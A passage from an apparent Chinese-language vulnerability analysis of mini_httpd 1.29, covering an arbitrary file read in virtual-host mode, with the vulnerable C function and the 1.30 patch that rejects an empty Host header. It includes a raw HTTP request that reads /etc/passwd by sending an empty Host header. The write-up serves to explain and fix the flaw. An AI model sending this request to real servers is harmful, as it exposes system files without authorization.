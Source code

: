 
当设备开启虚拟主机模式的情况下，调用函数virtual_file进行处理。该函数中使用了snprintf构造路径，而且没有对参数f进行校验，因此当req_home如果等于空，那么就相当于直接访问请求文件路径f了。

```c
static char* virtual_file( char* f ) {
    char* cp;
    static char vfile[10000];

    /* Use the request's hostname, or fall back on the IP address. */
    if ( host != (char*) 0 )
        req_hostname = host;
    else
    {
        usockaddr usa;
        socklen_t sz = sizeof(usa);
        if ( getsockname( conn_fd, &usa.sa, &sz ) < 0 )
            req_hostname = "UNKNOWN_HOST";
        else
            req_hostname = ntoa( &usa );
    }
    /* Pound it to lower case. */
    for ( cp = req_hostname; *cp != '\0'; ++cp )
        if ( isupper( *cp ) )
            *cp = tolower( *cp );
    (void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
    return vfile;
}
```

此处补充下关于虚拟主机相关的概念。虚拟主机（Virtual Hosting）模式是Web服务器配置的一种方式，它允许服务器在同一物理服务器上托管多个网站域名。在虚拟主机模式下，Web服务器在收到HTTP请求时会检查请求的Host头部，根据这个头部确定请求意图访问的是哪个虚拟主机。也就是说，攻击者可以向存在漏洞的mini_httpd发送HOST为空的请求头，并将想要读取的文件放在请求行的路径中，如下：

```plaintext
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

在mini_httpd 1.30版本中，对该漏洞进行了修补，大概就是在函数handle_request处理请求头的时候对HOST新增了一个检查，检查HOST是否为空，如果为空则同样返回400错误。

```c
// 1.29
 else if ( strncasecmp( line, "Host:", 5 ) == 0 )
{
    cp = &line[5];
    cp += strspn( cp, " \t" );
    host = cp;
    if ( strchr( host, '/' ) != (char*) 0 || host[0] == '.' )
    send_error( 400, "Bad Request", "", "Can't parse request." );
}

// 1.30
 else if ( strncasecmp( line, "Host:", 5 ) == 0 )
{
    cp = &line[5];
    cp += strspn( cp, " \t" );
    host = cp;
    if ( host[0] == '\0' || host[0] == '.' ||
           strchr( host, '/' ) != (char*) 0 )
        send_error( 400, "Bad Request", "", "Can't parse request." );
}
```
